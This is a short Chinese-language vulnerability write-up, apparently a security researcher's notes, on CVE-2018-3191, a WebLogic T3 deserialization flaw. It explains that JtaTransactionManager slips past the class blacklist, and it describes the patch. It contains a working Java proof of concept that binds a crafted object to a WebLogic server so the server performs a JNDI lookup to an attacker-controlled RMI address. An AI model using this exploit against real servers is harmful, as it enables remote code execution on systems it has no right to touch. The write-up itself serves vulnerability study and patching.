




- [CVE-2018-3191 T3 反序列化](#cve-2018-3191-t3-反序列化)
  - [漏洞原理](#漏洞原理)
    - [JtaTransactionManager](#jtatransactionmanager)
    - [POC](#poc)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2018-3191 T3 反序列化
## 漏洞原理
### JtaTransactionManager
在CVE-2018-3191中利用的是JtaTransactionManager类这个不在黑名单中的类,在其`readObject`方法中存在JNDI的sink.  
  

  

  
通过向weblogic绑定一个`userTransactionName`属性为恶意JNDI连接地址的JtaTransactionManager对象,即可在服务端接受反序列化该对象的时候触发JNDI注入.  
### POC
```java
import com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager;
import ysoserial.payloads.util.Gadgets;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;
import java.rmi.Remote;
public class T3 {
    public static void main(String[] args) throws Exception {
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "weblogic.jndi.WLInitialContextFactory");
        env.put("java.naming.provider.url", "t3://127.0.0.1:7001");
        InitialContext initialContext = new InitialContext(env);
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName("rmi://192.168.65.2:1099/bzfdiv");
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), Remote.class);
        initialContext.rebind("hello", remote);

    }
}

```
  
## 补丁
在resolveClass中对JtaTransactionManager的父类`AbstractPlatformTransactionManager`添加了黑名单.
## 参考
https://paper.seebug.org/718/
